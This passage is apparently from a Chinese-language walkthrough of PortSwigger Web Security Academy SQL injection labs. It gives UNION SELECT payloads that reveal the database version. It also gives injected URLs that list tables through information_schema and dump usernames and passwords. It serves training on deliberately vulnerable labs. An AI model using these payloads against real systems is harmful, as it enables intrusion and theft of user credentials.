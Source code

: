 补充：

```
(此处-- a是为了使空格不被插件忽略，使得注释成功)
————
part2:
'union+select+null,version()-- a
```

#### 官方解

1. Use Burp Suite to intercept and modify the request that sets the product category filter.

2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

   ```
   '+UNION+SELECT+'abc','def'#
   ```

3. Use the following payload to display the database version:

   ```
   '+UNION+SELECT+@@version,+NULL#
   ```

### 九、Orange数据库检索1

Lab: SQL injection attack, listing the database contents on non-Oracle databases

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

#### 步骤

information_schema 库的知识

```http
https://0a27003203dbd5e480cba3be000800a0.web-security-academy.net/filter?category=Pets' union select table_name,'1' FROM information_schema.tables --+
```

```http
https://0a27003203dbd5e480cba3be000800a0.web-security-academy.net/filter?category=Pets' union select '1',column_name from information_schema.columns WHERE table_name = 'users_gqcgxs'--+
```

```http
https://0a27003203dbd5e480cba3be000800a0.web-security-academy.net/filter?category=Pets' union select username_dssnax,password_clspga FROM users_gqcgxs--+ 
```
